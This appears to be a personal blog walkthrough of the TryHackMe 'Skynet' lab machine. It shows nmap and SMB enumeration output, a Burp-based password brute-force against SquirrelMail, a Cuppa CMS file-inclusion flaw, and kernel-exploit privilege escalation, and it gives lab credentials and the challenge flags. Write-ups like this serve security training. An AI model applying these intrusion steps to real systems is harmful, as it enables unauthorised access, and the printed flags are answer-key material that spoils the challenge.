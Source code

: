 ```yaml
---
title: Skynet

date: 2022-06-22 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, enum4linux, smb, linux, gobuster, burp]
---
```


Hacking a vulnerable Terminator themed Linux machine.

[https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

![0xskar](/assets/skynet.webp)

* * *

## Task 1 - Deploy the Vulerable Machine

1. Initial Nmap Scans

```shell
sudo nmap -Pn -sS -T4 -p- 10.10.70.205 -oN nmap_initial.txt
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
````

```shell
sudo nmap -sC -sV -T4 10.10.70.205 -p22,80,110,139,143,445 -oN nmap_second.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 10:06 PDT
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL PIPELINING CAPA TOP UIDL AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities ENABLE Pre-login LITERAL+ ID LOGIN-REFERRALS SASL-IR post-login IMAP4rev1 have OK IDLE more listed LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-22T17:06:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-06-22T12:06:34-05:00
```

## Enum4Linux

- ``enum4linux -a 10.10.70.205 -R 139,445``
- Notes from Scan:

```shell
[+] Got OS info for 10.10.70.205 from srvinfo:                                                          SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu) 
 =======================================( Users on 10.10.70.205 )=======================================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:                                                                                              
user:[milesdyson] rid:[0x3e8]
==================================( Share Enumeration on 10.10.70.205 )=================================
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

        Server               Comment
        ---------            -------
        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.70.205                                                            //10.10.70.205/print$   Mapping: DENIED Listing: N/A Writing: N/A                                                                                                 
//10.10.70.205/anonymous        Mapping: OK Listing: OK Writing: N/A
//10.10.70.205/milesdyson       Mapping: DENIED Listing: N/A Writing: N/A

[E] Cant understand response                                                                                                                                            
NT_STATUS_OBJECT_NAME_NOT_FOUND listing 

//10.10.70.205/IPC$     Mapping: N/A Listing: N/A Writing: N/A

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                                                                 
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
```

## SMB Client

- ``smbclient //10.10.70.205/anonymous -U nobody -p 139 --workgroup=SKYNET`` - log into smbclient with user nobody 
- get all the loot ``log1.txt`` is a wordlist maybe something useful.

Connect to miles SMB

```shell
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
mget *
```

## Gobuster

- gobuster dir -u http://10.10.70.205:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 100 -e

```shell
http://10.10.70.205:80/admin                (Status: 301) [Size: 312] [--> http://10.10.70.205/admin/]
http://10.10.70.205:80/css                  (Status: 301) [Size: 310] [--> http://10.10.70.205/css/]  
http://10.10.70.205:80/js                   (Status: 301) [Size: 309] [--> http://10.10.70.205/js/]   
http://10.10.70.205:80/config               (Status: 301) [Size: 313] [--> http://10.10.70.205/config/]
http://10.10.70.205:80/ai                   (Status: 301) [Size: 309] [--> http://10.10.70.205/ai/]    
http://10.10.70.205:80/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.70.205/squirrelmail/]
```


## Answer the questions below

**What is Miles password for his emails?**

- Capture in burpsuite proxy and insert log1.txt for password list ``cyborg007haloterminator``
- here we get milesdysons new samba password ``)s{A&2Z=F^n_E.B``

**What is the hidden directory?**

- checking the /notes/ folder in miles samba i found ``important.txt``
- leads us to ``/45kra24zxs28v3yd``
- which enumetation leads us to ``/45kra24zxs28v3yd/administrator``
- using searchsploit for cuppa we can find vulns 
- ``cat /usr/share/exploitdb/exploits/php/webapps/25971.txt``
- php code injection @ ``/alerts/alertConfigField.php?urlConfig=``

- dump for the cuppa config

```php
<?php 
   class Configuration{
      public $host = "localhost";
      public $db = "cuppa";
      public $user = "root";
      public $password = "password123";
      public $table_prefix = "cu_";
      public $administrator_template = "default";
      public $list_limit = 25;
      public $token = "OBqIPqlFWf3X";
      public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      public $upload_default_path = "media/uploadsFiles";
      public $maximum_file_size = "5242880";
      public $secure_login = 0;
      public $secure_login_value = "";
      public $secure_login_redirect = "";
   } 
?>
```

sql

**What is the vulnerability called when you can include a remote file?**

- remote file inclusion
- ``/etc/issue`` - Ubuntu 16.04.6 LTS 
- ``https://www.exploit-db.com/exploits/45010 ``

**What is the user flag?**

- 7ce5c2109a40f958099283600a9ae807

**What is the root flag?**

1. run linpeas.sh for enumeration

```shell
meterpreter > sysinfo
Computer     : 10.10.221.179
OS           : Ubuntu 16.04 (Linux 4.8.0-58-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

2. compile and run https://www.exploit-db.com/exploits/44654
3. travel to /root/

- 3f0372db24753accc7179a282cd6a949


* * * 